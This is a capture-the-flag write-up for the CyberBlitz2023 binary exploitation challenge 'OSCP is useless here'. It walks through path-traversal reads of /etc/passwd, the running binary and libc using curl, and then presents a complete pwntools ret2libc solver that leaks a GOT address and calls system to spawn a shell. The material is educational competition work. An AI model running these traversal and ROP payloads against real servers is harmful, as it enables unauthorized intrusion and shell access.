







# CyberBlitz2023

I played with my team GreenHat and came in 1st place in this year’s SIT N0H4Ts Capture the Flag competition, CyberBlitz. 

Final Scoreboard



During the CTF, I solved the following challenges for my team.



---

## **OSCP is useless here (300 points)**

> Doesnt matter if you have OSCP or not, lets see you get the flag here.
> 
> 
> Connect at [http://34.126.68.54:20001/](http://34.126.68.54:20001/)
> 
> Author : Platy
> 

Category: Binary Exploitation

LFI on the webserver allowed us to dump the binary and associated libc file, which was then used to do a ret2libc attack to leak functions from the Global Offset Table (GOT) to calculate the LIBC offset, then execute system. 

Landing page, we get a site with no other useful information except that it is hosted on Debian Buster and for a Server header: `Http Server written in C`





Well.. It is binary exploitation, but what we have here is a webserver?

## LFI

After some directory enumeration, we find that the only page is index.html, which loads the same page which we saw in the landing page. Any invalid pages would be redirected to a `404 Not Found`.

We can look for other vulnerabilities such as LFI. When testing for LFI, we can get the contents of /etc/passwd (as this is a debian box) using `/../../../../../../etc/passwd`



## Leaking the binary

As the HTTP header suggests the application is a C program hosting a webserver, we can try to dump the binary. Looking into `/proc/self/exe` we could possibly dump the binary file as it would access the executable that is being run by the current process. This is also a common LFI enumeration endpoint: [https://thesecurityvault.com/path-traversal-lfi-can-be-worst-than-you-think/](https://thesecurityvault.com/path-traversal-lfi-can-be-worst-than-you-think/)

> `/proc/self/`
> 
> 
> When a process accesses this magic symbolic link, it resolves to the process's own /proc/pid directory.
> [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)
> 

We can verify this with burp and it returns what seems to be the contents of the binary.



To save it to our system, we can use curl with the `--path-as-is` parameter, as it would automatically shorten the `/../../` for us if run without.

```jsx
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ curl http://34.126.68.54:20001/../../../../../../proc/self/exe --path-as-is > binary                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17160    0 17160    0     0   165k      0 --:--:-- --:--:-- --:--:--  165k

┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ file binary
binary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8fcbb0d24464a2d0db075447f04a763182b9d2db, not stripped
```

Checksec tells us it is a 64 bit executable with NX enabled and no other protections. As NX is enabled we won’t be able to execute code from the stack.

```jsx
┌──(kali㉿kali)-[~/Desktop/CTF/CyberBlitz2023]
└─$ checksec binary                                                                     
[*] '/home/kali/Desktop/CTF/CyberBlitz2023/binary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Analyzing the binary, we will find that there is a buffer overflow vulnerability which can be triggered with `"GET " + payload` as input.  Our attack path would be as follows:

1. Get the LIBC used by the binary
2. ROP to leak a function from the GOT on the remote server to calculate LIBC offset
3. ROP again and execute system 

## Getting LIBC: LFI on libc

We can look into the filesystem to get the libc. As implied from the text in the site landing page, we are looking at a Debian box. For Debian based distros, most system libraries can be found from `/lib/x86_64-linux-gnu/`. We can also use ldd:

```python
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ ldd binary 
        linux-vdso.so.1 (0x00007ffc788dd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f397305a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f3973262000)
```

With curl, we would be able to get the libc from the remote server.

```python
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ curl http://34.126.68.54:20001/../../../../../../lib/x86_64-linux-gnu/libc.so.6 --path-as-is > libc.so                                                                                                        
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1777k    0 1777k    0     0   116k      0 --:--:--  0:00:15 --:--:--  117k

┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ file libc.so
libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a65a82147cd98619525049d4c29cc45f88d1fb00, for GNU/Linux 3.2.0, stripped
```

## ROP

Now that we have the correct libc, we can start constructing our payloads to exploit the binary, which our end goal is to call system and spawn us a shell.

The following would leak the address of the puts in the GOT, which we can then use to calculate the libc offset (to defeat ASLR)

```python
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
leak_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(got_puts) + p64(plt_puts) + p64(elf.symbols['main'])
p.sendline(leak_payload)
```

This next part would then call system() and pass in ‘/bin/sh’ which we can get from libc.

```python
libc_offset = puts_address - libc.symbols['puts']
binsh = next(libc.search(b'/bin/sh')) + libc_offset
exploit_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libc_offset + libc.symbols['system'])
p.sendline(exploit_payload)
```

With the pieces, the final solver would be as follows:

```jsx
from pwn import *

libc = ELF("libc.so")
p = remote('34.126.68.54',20001)
#p = process("binary")
elf = ELF("binary")

# ROP gadgets
rop = ROP(elf)
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

# leak puts
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
leak_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(got_puts) + p64(plt_puts) + p64(elf.symbols['main'])
p.sendline(leak_payload)

p.recvline()
p.recvline()
p.recvline()

# puts
leaked_puts = p.recvline()[:-1] 
puts_address = u64(leaked_puts + b'\x00' * (8 - len(leaked_puts)))
print(f'Leaked puts address: {hex(puts_address)}')

# libc offset
libc_offset = puts_address - libc.symbols['puts']
print(f'Libc offset: {hex(libc_offset)}')

# payload to call system
binsh = next(libc.search(b'/bin/sh')) + libc_offset
exploit_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libc_offset + libc.symbols['system'])

p.sendline(exploit_payload)

p.recvline()
p.recvline()
p.recvline()

p.interactive()
```

Which after running on the remote server, we get a shell and the flag.



```python
CyberBlitz{have_you_perhaps_considered_trying_harder_than_you_can_believe}
```
